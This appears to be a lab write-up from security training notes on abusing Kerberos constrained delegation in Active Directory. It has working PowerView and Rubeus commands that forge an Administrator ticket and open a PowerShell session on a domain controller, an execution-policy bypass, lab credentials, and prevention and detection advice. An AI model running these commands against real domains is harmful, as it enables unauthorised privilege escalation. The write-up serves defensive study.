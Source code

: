 # Kerberos  Constrained Delegation

Kerberos Delegation allows a service (like a web server) to access resources on another server (like a database) on behalf of a user. This way, the web server itself doesn't need direct access—access is made using the user's permissions.

There are **three types of delegation** in Active Directory:

1. **Unconstrained Delegation** – Most permissive. The service can access _any_ resource on behalf of a user.
2. **Constrained Delegation** – More secure. The service can only access _specific_ resources, as defined by the admin.
3. **Resource-Based Constrained Delegation** – The _target_ resource (like the database server) decides which services it trusts to delegate access.

**Important:** Delegation can pose security risks. It should only be used when truly necessary.\
Unconstrained and Constrained delegations are more common in production. Resource-based delegation is rarer but often abused by attackers.

***

## Attack

We will only showcase the abuse of `constrained delegation`; when an account is trusted for delegation, the account sends a request to the `KDC` stating, "Give me a Kerberos ticket for user YYYY because I am trusted to delegate this user to service ZZZZ", and a Kerberos ticket is generated for user YYYY (without supplying the password of user YYYY). It is also possible to delegate to another service, even if not configured in the user properties. For example, if we are trusted to delegate for `LDAP`, we can perform protocol transition and be entrusted to any other service such as `CIFS` or `HTTP`.

To demonstrate the attack, we assume that the user `web_service` is trusted for delegation and has been compromised. The password of this account is `Slavi123`.

1.

To begin, we will use the `Get-NetUser` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to enumerate user accounts that are trusted for constrained delegation in the domain:

### See deligated accounts

```powershell-session
PS C:\Users\bob\Downloads> Get-NetUser -TrustedToAuth
```

<figure><img src="../../../.gitbook/assets/Pasted image 20250414102458.png" alt=""><figcaption></figcaption></figure>

We can see that the user `web_service` is configured for delegating the HTTP service to the Domain Controller `DC1`. The HTTP service provides the ability to execute `PowerShell Remoting`. Therefore, any threat actor gaining control over `web_service` can request a Kerberos ticket for any user in Active Directory and use it to connect to `DC1` over `PowerShell Remoting`.

Before we request a ticket with `Rubeus` (which expects a password hash instead of cleartext for the `/rc4` argument used subsequently), we need to use it to convert the plaintext password `Slavi123` into its `NTLM` hash equivalent

### Convert pass to hash

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe hash /password:Slavi123
```

<figure><img src="../../../.gitbook/assets/Pasted image 20250414102616.png" alt=""><figcaption></figcaption></figure>

Then, we will use `Rubeus` to get a ticket for the `Administrator` account

### S4U (Services-for-User) Kerberos delegation command

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

To confirm that `Rubeus` injected the ticket in the current session, we can use the `klist` command

### Confirm ticket injection

```powershell-session
PS C:\Users\bob\Downloads> klist
```

<figure><img src="../../../.gitbook/assets/Pasted image 20250414102731.png" alt=""><figcaption></figcaption></figure>

With the ticket being available, we can connect to the Domain Controller impersonating the account `Administrator`

### Connect to dc1

```powershell-session
PS C:\Users\bob\Downloads> Enter-PSSession dc1
[dc1]: PS C:\Users\Administrator\Documents> hostname
DC1
[dc1]: PS C:\Users\Administrator\Documents> whoami
eagle\administrator
[dc1]: PS C:\Users\Administrator\Documents>
```

If the last step fails (we may need to do `klist purge`, obtain new tickets, and try again by rebooting the machine). We can also request tickets for multiple services with the `/altservice` argument, such as `LDAP`, `CFIS`, `time`, and `host`.

***

## Prevention

Fortunately, when designing Kerberos Delegation, Microsoft implemented several protection mechanisms; however, it did not enable them by default to any user account. There are two direct ways to prevent a ticket from being issued for a user via delegation:

* Configure the property `Account is sensitive and cannot be delegated` for all privileged users.
* Add privileged users to the `Protected Users` group: this membership automatically applies the protection mentioned above (however, it is not recommended to use `Protected Users` without first understanding its potential implications).

***

## Detection

* One of the best ways to spot abuse of constrained delegation is by monitoring user behavior. If you know where and when a user normally logs in, you can detect unusual activity—for example, the ‘Administrator’ logging in from an unexpected location.
* In secure setups using Privileged Access Workstations (PAWs), any privileged user logging in from a non-PAW machine should raise a red flag. Look for **event ID 4624** (successful logon) in the logs.
* Sometimes, logon events using delegated tickets include a **"Transited Services"** field, showing where the ticket came from. This usually appears during **S4U (Service For User)** logons—a Microsoft Kerberos extension that allows a service to request a ticket on behalf of a user.
* In attacks (e.g., using _Rubeus_), S4U is often used to impersonate a user (like ‘Administrator’) and access other systems like the Domain Controller.

***

## Tasks

### Task 1

Use the techniques shown in this section to gain access to the DC1 domain controller and submit the contents of the flag.txt file.

RDP to the user bob with the password Slavi123.

```
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
```

Open PS

**bypasses PowerShell's script execution policy**, allowing **any script** to run **without warning or prompt**

```
powershell -exec bypass
```

load a script file (`PowerView-main.ps1`) as a module so that you can use the functions and commands defined within it.

```
Import-Module PowerView-main.ps1
```

**Enumerates user accounts that are trusted for delegation across domains**, specifically accounts where TrustedToAuthForDelegation = True

```
Get-NetUser -TrustedToAuth
```

get the hash for the password for user bob because rebeus only works with hashes

```
.\Rubeus.exe hash /password:Slavi123
```

copy the hash and paste in the /rc4 argument to inject the ticket to impersonate the **Administrator** user.

```
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

Ckech if the ticket is injected in the session

```
klist
```

Connect to DC1

```
Enter-PSSession dc1
```

Check the docs and view the flag.txt

```
dir
cat flag.txt
```

video
